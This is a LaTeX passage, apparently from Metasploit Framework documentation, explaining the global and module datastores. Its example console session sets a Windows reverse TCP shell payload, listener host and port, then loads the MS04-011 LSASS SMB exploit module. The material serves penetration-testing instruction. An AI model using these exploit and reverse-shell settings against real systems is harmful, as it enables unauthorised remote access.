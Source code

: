 \documentclass{report}
\begin{document}
    \section{Datastore Efficiency}
    \label{ENV-EFF}

\par
This split datastore system allows you save time during exploit development
and penetration testing. Common options between exploits can be defined in the
global datastore once and automatically used in any exploit you load thereafter.

\par
The example below shows how setting the \texttt{LPORT}, \texttt{LHOST}, and
\texttt{PAYLOAD} variables in the global datastore can save you time when
exploiting a set of Windows-based targets. If this datastore was set and a Linux
exploit was being used, the module datastore could be used (via \texttt{set} and
\texttt{unset}) to override these defaults.

{\footnotesize
\begin{verbatim}
f > setg LHOST 192.168.0.10
LHOST => 192.168.0.10
msf > setg LPORT 4445
LPORT => 4445
msf > setg PAYLOAD windows/shell/reverse_tcp
PAYLOAD => windows/shell/reverse_tcp
msf > use windows/smb/ms04_011_lsass
msf exploit(ms04_011_lsass) > show options

Module options:

...

Payload options:

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique: seh, thread, process
   LHOST     192.168.0.10     yes       The local address
   LPORT     4445             yes       The local port

...

\end{verbatim}}

    \section{Datastore Variables}
    \label{ENV-VAR}

\par
The datastore can be used to configure many aspects of the Metasploit Framework,
ranging from user interface settings to specific timeout options in the network
socket API. This section describes the most commonly used environment variables.
\end{document}
